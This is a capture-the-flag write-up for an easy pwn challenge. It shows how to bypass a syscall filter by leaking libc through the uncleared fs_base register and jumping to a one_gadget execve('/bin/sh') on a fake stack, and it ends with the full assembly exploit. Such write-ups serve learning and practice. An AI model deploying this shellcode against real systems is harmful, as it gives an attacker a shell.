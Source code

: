 # Catagory: PWN
## Description
### Level: Easy

![rev](https://github.com/user-attachments/assets/622e82e4-df37-4565-9036-42abf4e692b9)

Shellcode_runner3 but with a revenge! The previous challenge didn't restrict `int 0x80` due to some compile issue so `int 0x80` was an unintended solution (what i've heard from Discord). In this revenge version, both `int 0x80` and `syscall` filtered out. The rest is the same. 

## Approach

I could've solved this only if I typed `info registers` like every sane person `gdb`.

![fsbase](https://github.com/user-attachments/assets/fca1fa33-7fa9-4246-9644-e9a8ca936b65)

We see that `fs_base` register isn't cleared so we can leak anything we want. Especially **libc** for reasons you'll see in a minute. 

![vmmap](https://github.com/user-attachments/assets/988872a9-bf13-4e59-b5c8-e586c7364992)

`vmmap` or `info proc mappings` in gdb if you don't have gef extansion will show the mapped memory regions. Here we see the start of **libc**. 

![libcaddr](https://github.com/user-attachments/assets/d2ae80ea-27d4-47a0-a420-c8c2b979bf85)

We can find the address of **libc base** with some offset from **fs_base** then we can do _anything_ we want. Including doing a similar approach in shellcode_runner3 and jumping to **mprotect** with PROT_WRITE flag to do a self-modfying shellcode. But it'd be lame to do the same method again. Instead, I wanted to try so called _one-gadget_ shell. 

The great idea is calling **execve("/bin/sh")** with using only one address somewhere in **libc**. Simple to achive as long as we have the base address of libc. We are going to use a tool called _one_gadget_. Here's the github page for the tool and some reading: 
https://github.com/david942j/one_gadget  
https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing/ret2lib/one-gadget

![onegadget](https://github.com/user-attachments/assets/71eb2b96-2117-4d64-b21e-52072bd1bdab)

We have 3 options here, last `execve` call looks like the easiest to do. It has some constraints we need to fullfil. Not a big deal. But there is a caveat. `rsp` pointing to **0**, you have to create a **fake stack** so the calls in libc works (e.g `push, call...`). 

![flag](https://github.com/user-attachments/assets/3118cce8-ff3d-42e6-b8ff-1182a1e28ca5)

And we have a shell! (note: the remote server uses a different version of libc. we were given a dockerfile and we can use it to find out the libc used in the remote server.)

## Full Exploit
```assembly
.global _start
_start:
.intel_syntax noprefix

        # one_gadget shell call for libc.so.6
        #int3
        mov rbx, fs:0 # fsbase isn't cleared            
        mov rcx, rbx
        add rcx, 10432 # libc base 
        mov r8, rcx
        mov rbp, rcx
        sub rbp, 0x100 # needed writable address
        xor rdi, rdi
        xor r13, r13
        add r8, 0xd636b # execve("/bin/sh", rbp-0x40, r13)
        mov rsp, rbp # make fake stack so calls like push in libc work
        jmp r8
```

![yay](https://tokyoking.github.io/assets/gifs/proud.gif)




